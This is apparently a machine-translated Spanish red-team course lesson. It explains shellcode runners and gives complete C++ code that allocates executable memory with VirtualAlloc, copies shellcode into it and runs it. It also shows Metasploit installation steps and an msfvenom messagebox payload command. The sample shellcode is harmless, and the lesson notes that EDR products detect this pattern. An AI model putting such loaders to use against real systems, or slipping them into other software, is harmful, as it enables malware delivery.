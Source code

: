 ### ¿Qué es un Shellcode Runner?

A **corredor de shellcode** es un programa pequeño, generalmente escrito en C, C++ o ensamblador, cuyo único propósito es **cargar y ejecutar shellcode en la memoria**. Es un concepto vital en el desarrollo de exploits, pruebas posteriores a la explotación y herramientas Red Team.

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-runner-basic#user-content-what-is-shellcode)¿Qué es Shellcode?

- **Código Shell** es una secuencia de instrucciones a nivel de máquina que **realizar acciones específicas** (por ejemplo, iniciar un shell inverso, mostrar un mensaje o generar un proceso).
- Es típicamente el **carga útil** utilizado después de explotar una vulnerabilidad.
- Shellcode suele escribirse en **montaje**, luego compilado y extraído como **bytes hexadecimales**.

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-runner-basic#user-content-what-does-a-shellcode-runner-do)¿Qué hace un ejecutor de Shellcode?

El ejecutor de shellcode:

1. **Asigna memoria** en el proceso actual con `EXECUTE` permisos.
2. **Copia el shellcode** en la memoria asignada.
3. **Lanza la memoria** como puntero de función.
4. **Invoca el código shell**, provocando que se ejecute.

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-runner-basic#user-content-breakdown-of-the-shellcode-runner-code)Desglose del código de ejecución de Shellcode

```cpp
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\xb2\x0d\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xb3\x01\xcd\x80";
```

- Esto es crudo **shellcode** en forma hexadecimal.
- Este código shell en particular es **Basado en Linux (`cd 0x80`)** y no funcionará tal como está en Windows; está aquí sólo como ejemplo.

---

```cpp
void* execMem = VirtualAlloc(nullptr, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

- Asigna **memoria en el espacio de direcciones del proceso**.
- `PAGE_EXECUTE_READWRITE`: permite que la memoria sea **ejecutable**, **legible**, y **escribible** (un antipatrón común marcado por los EDR).

---

```cpp
memcpy(execMem, shellcode, sizeof(shellcode));
```

- Copia el shellcode **en la memoria asignada**.

---

```cpp
auto shellcodeFunc = reinterpret_cast<void(*)()>(execMem);
shellcodeFunc();
```

- **Elencos** el puntero de memoria sin procesar como puntero de función y **lo llama**.
- Este es el momento en que se ejecuta el shellcode **ejecutado en memoria**.

---

```cpp
VirtualFree(execMem, 0, MEM_RELEASE);
```

- Libera la memoria después de la ejecución (opcional, ya que es probable que el proceso finalice poco después).

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-runner-basic#user-content-key-takeaways)Conclusiones clave

- Los ejecutores de Shellcode se utilizan para **Ejecutar cargas útiles directamente desde la memoria**, sin escribirlos en el disco.
- Ellos son un **Técnica común en el Equipo Rojo y seguridad ofensiva**, pero también fuertemente monitoreado por los modernos **Soluciones EDR y antivirus**.
- Las cargas útiles del mundo real deben ser **Código shell compatible con Windows**, a menudo generado utilizando herramientas como `msfvenom`, `Donut`, o escrito manualmente en ensamblaje.

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-runner-basic#user-content-security-implication)Implicaciones de seguridad

Porque este comportamiento (asignar memoria con `PAGE_EXECUTE_READWRITE`, escribiendo shellcode y llamándolo) **imita el malware**, es monitoreado de cerca y a menudo marcado por los EDR como comportamiento malicioso. Evitar estas detecciones es una parte esencial del Red Teaming avanzado y la emulación de amenazas.

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-runner-basic#user-content-download-do-metasploit)**Descargar do Metasploit**

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/3af69eb8-fca9-4740-826c-f4b9692859b9)

Descargar versión de código abierto

Enlace: [https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/dc31a811-264a-491a-b9ac-8f1c2325a6ea)

Descargue el instalador de versiones de Windows

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/fbe11631-22e5-411c-8675-1460fa714dd4)

Ejecute el instalador de Metasploit

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/c8e6a955-5955-433e-b65b-fc371a9b231d)

Haga clic en “Siguiente” para continuar con la configuración

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/13564824-d79f-44de-84fb-16fcbc17d8d8)

Acepte el acuerdo de licencia y haga clic en “Siguiente”

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/6f5a27d4-d60c-438c-85b1-1b2ef9b74ca5)

Haga clic en “Siguiente” para continuar con la configuración predeterminada

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/4da18856-f1d9-4b71-bcbd-f2c4eb620134)

Haga clic en “Instalar” para comenzar la instalación

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/f7adfef0-19c9-40c2-ac8a-bf82ad4bf218)

Haga clic en “Sí” para permitir la instalación de componentes adicionales

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/2078b589-bec1-43c4-8870-ad07e193e3c7)

Haga clic en “Finalizar” para completar la configuración

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/b9681330-8b35-44c5-90dc-8ef1bb5ca060)

Navegue hasta la carpeta `metasploit-framework` en la unidad C:

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/84b5e3e8-35d3-42c1-9a8c-3f4c3c72870a)

Prueba de Metasploit generando un shellcode simple

## [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-runner-basic#user-content-shellcode-runner-example)Ejemplo de ejecución de Shellcode

Comando de ejemplo:

```bash
# msfvenom -p windows/x64/messagebox -f c
```

Ejemplo de ejecutor de C++:

```cpp
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\xb2\x0d\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xb3\x01\xcd\x80";

int main() {
    // Allocate memory with execution permission
    void* execMem = VirtualAlloc(nullptr, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!execMem) {
        std::cerr << "Memory allocation failed!" << std::endl;
        return -1;
    }

    // Copy shellcode to the allocated memory
    memcpy(execMem, shellcode, sizeof(shellcode));

    // Cast the memory as a function and call it
    auto shellcodeFunc = reinterpret_cast<void(*)()>(execMem);
    shellcodeFunc();

    // Optionally free memory (not necessary here)
    VirtualFree(execMem, 0, MEM_RELEASE);
    return 0;
}
```

![](https://images.coursestack.com/62c9b0f6-6a0a-488c-870b-4ca0ac754378/cd6d0de3-00c0-4f77-ac0f-7120e44debdd)